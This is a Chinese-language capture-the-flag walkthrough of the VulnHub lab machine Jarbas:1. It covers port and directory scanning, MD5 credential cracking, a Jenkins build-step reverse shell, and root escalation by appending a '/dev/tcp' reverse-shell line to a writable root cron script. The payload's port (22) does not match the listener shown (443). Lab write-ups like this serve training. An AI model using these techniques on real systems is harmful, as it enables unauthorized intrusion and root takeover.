







# Recon

这台机器开放了22、80、3306、8080，先从80和8080两个web入手

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/jarbas:1]
└─$ sudo nmap --min-rate 20000 -sT -sV -A -p- -n -Pn 192.168.2.151 -oN recon
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-20 01:50 EST
Nmap scan report for 192.168.2.151
Host is up (0.00050s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Jarbas - O Seu Mordomo Virtual!
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
MAC Address: 00:0C:29:F3:9A:68 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.50 ms 192.168.2.151

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.03 seconds
```

# web

80端口是一个名为Jarbas的应用



8080端口是一个Jenkins



弱口令尝试无果

# shell as jenkins by build-shell

对80端口进行目录扫描

指定html后缀扫描，发现access.html

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/jarbas:1]
└─$ gobuster dir -u http://192.168.2.151 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x html
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.151
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 32808]
/access.html          (Status: 200) [Size: 359]
```

访问access.html，其中说Creds加密是一种安全的方式

下面三条数据能看出来是用户名和密码md5



通过crackstation.net解密


经过尝试，使用第三对凭据eder:vipsu成功登录jenkins



登录后New Item



build选择execute shell，填入反弹shell指令



save后build now



得到反弹shell

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/jarbas:1]
└─$ pwncat-cs -lp 443            
(remote) jenkins@jarbas:/var/lib/jenkins/workspace/may$ id
uid=997(jenkins) gid=995(jenkins) groups=995(jenkins) context=system_u:system_r:initrc_t:s0
```

# shell as root by crontab

例行检查，发现root权限的计划任务，且目标shell文件可读写，每5分钟执行

```shell
(remote) jenkins@jarbas:/home$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1
(remote) jenkins@jarbas:/home$ ls -la /etc/script/CleaningScript.sh 
-rwxrwxrwx. 1 root root 50 Apr  1  2018 /etc/script/CleaningScript.sh
```

向其写入反弹shell命令

```shell
(remote) jenkins@jarbas:/home$ cat /etc/script/CleaningScript.sh 
#!/bin/bash

rm -rf /var/log/httpd/access_log.txt
(remote) jenkins@jarbas:/home$ cat >> /etc/script/CleaningScript.sh << may
> /bin/bash -i >/dev/tcp/192.168.2.144/22 0>&1
> may
(remote) jenkins@jarbas:/home$ cat /etc/script/CleaningScript.sh 
#!/bin/bash

rm -rf /var/log/httpd/access_log.txt
/bin/bash -i >/dev/tcp/192.168.2.144/22 0>&1
```

等待5分钟，反弹shell成功

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/jarbas:1]
└─$ pwncat-cs -lp 443                       
(remote) root@jarbas:/root# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:system_cronjob_t:s0-s0:c0.c1023
(remote) root@jarbas:/root# ls
flag.txt
(remote) root@jarbas:/root# cat flag.txt 
Hey!

Congratulations! You got it! I always knew you could do it!
This challenge was very easy, huh? =)

Thanks for appreciating this machine.

@tiagotvrs 
```

